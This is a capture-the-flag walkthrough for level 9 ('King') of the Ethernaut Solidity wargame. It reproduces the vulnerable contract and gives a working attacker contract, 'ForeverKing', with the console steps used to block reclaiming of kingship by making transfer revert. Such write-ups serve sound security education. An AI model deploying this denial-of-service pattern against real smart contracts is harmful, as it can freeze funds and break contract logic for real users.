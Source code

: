 # Level 9: King

This is the level 9 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [transfer](https://docs.soliditylang.org/en/v0.8.10/types.html#members-of-addresses) method of addresses

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

`player` has to prevent the current level from reclaiming the kingship after instance is submitted.

Kingship is switched in `receive` function i.e. when a specific value is sent to `King`. So, we'll have to somehow prevent execution of `receive`.

The key thing to notice is that previous `king` is sent back `msg.value` using `transfer`. But what if this previous `king` was a contract and it didn't implement any `receive` or `fallback`? It won't be able to receive any value. And because of this `transfer` stops execution with an exception (unlike `send`). Gotcha!

Let's make a contract `ForeverKing` that has NO `receive` or `fallback`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
        require(sent, "Failed to send value!");
    }
}
```

Query the current prize:

```javascript
await contract.prize().then(v => v.toString())

// Output: '1000000000000000'
```

So at least `1000000000000000` wei is required to claim kingship.

Get your instance's address, so that `ForeverKing` can send value to it:

```javascript
contract.address

// Output: <your-instance-address>
```

Call `claimKingship` of `ForeverKing` with param `<your-instance-address>` and set the amount `1000000000000000` wei as value in Remix. That will make `ForeverKing` contract as king.

Submit the instance. Upon submitting the level will try to reclaim kingship through `receive` fallback. However, it will fail.

This is because upon reaching line:
```
king.transfer(msg.value);
```
exception would occur because `king` (i.e. deployed `ForeverKing` contract) has no fallback functions.

Level cleared.

Bonus thing to note here is that in `ForeverKing`'s `claimKingship`, `call` is used specifically. `transfer` or `send` will fail because of limited 2300 gas stipend. `receive` of `King` would require more than 2300 gas to execute successfully.

Of course, there are probably other ways too to prevent a successful `receive` execution.